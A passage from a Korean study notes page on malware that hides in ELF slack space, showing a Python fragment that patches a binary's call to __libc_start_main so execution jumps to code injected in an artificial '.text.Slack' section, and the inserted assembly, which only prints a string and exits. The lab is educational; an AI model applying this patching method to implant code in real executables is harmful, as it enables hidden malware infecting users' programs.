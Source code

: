 ```python

code = text.data()

# find call __libc_main_start asm

call_offset = code.find(b'\xff\x15')

  

print('text: ', hex(text.header.sh_addr))

print('entry: ', hex(e.entry), ' seek: ', hex(e.get_section_by_name('.text').header.sh_addr))

print('call_offset: ', call_offset, ' seek: ', hex(entry_offset + call_offset))

  

with open(target, 'r+b') as f:

f.seek(entry_offset + call_offset - 0x400000)

shell = b'\xff\x15' + (slack.header.sh_addr - entry_offset - call_offset - 6 + JUMPOFFSET).to_bytes(length = 4, byteorder='little', signed=True)

print('shell: ', hex(int.from_bytes(shell, 'big')))

f.write(shell)
```



![kr/기록/논문/assets/Slack Space를 이용한 악성 코드/assets/Slack Space을 이용한 악성 코드/Pasted image 20230808104128.png](/img/user/kr/%EA%B8%B0%EB%A1%9D/%EB%85%BC%EB%AC%B8/assets/Slack%20Space%EB%A5%BC%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20%EC%95%85%EC%84%B1%20%EC%BD%94%EB%93%9C/assets/Slack%20Space%EC%9D%84%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20%EC%95%85%EC%84%B1%20%EC%BD%94%EB%93%9C/Pasted%20image%2020230808104128.png)

UnHappy 한 출력이 되도록 조작

![kr/기록/논문/assets/Slack Space를 이용한 악성 코드/assets/Slack Space을 이용한 악성 코드/Pasted image 20230808103655.png](/img/user/kr/%EA%B8%B0%EB%A1%9D/%EB%85%BC%EB%AC%B8/assets/Slack%20Space%EB%A5%BC%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20%EC%95%85%EC%84%B1%20%EC%BD%94%EB%93%9C/assets/Slack%20Space%EC%9D%84%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20%EC%95%85%EC%84%B1%20%EC%BD%94%EB%93%9C/Pasted%20image%2020230808103655.png)


## 실습 설명

일단 이번 실습의 경우 인위적은 섹션을 생성하여 그곳을 슬랙 공간으로 가정하고 진행하였다.

즉 .text 영역 아래에 인위적인 코드를 삽입함과 동시에 \_\_libc\_main\_start  함수의 점프 주소를 main이 아닌 .text.Slack 영역의 코드로 바꿔치기 하였다.

.text.Slack 영역에 내가 인위적으로 삽입한 코드는 다음과 같다.(완전히 같지 않다 흐름만 참조. 진짜 삽입한 코드는 파이썬 코드에 존재)

```asm
section .text
        global _start

_start:
		// Print String 
        mov rax, 0x401178
        add rax, 0x2e
        mov rsi, rax
        // mov Address of String BELOW
        mov rax, 1
        mov rdi, 1
        mov rdx, 13
        syscall
        
        mov rax, 60
        mov rdi, 0
        syscall

```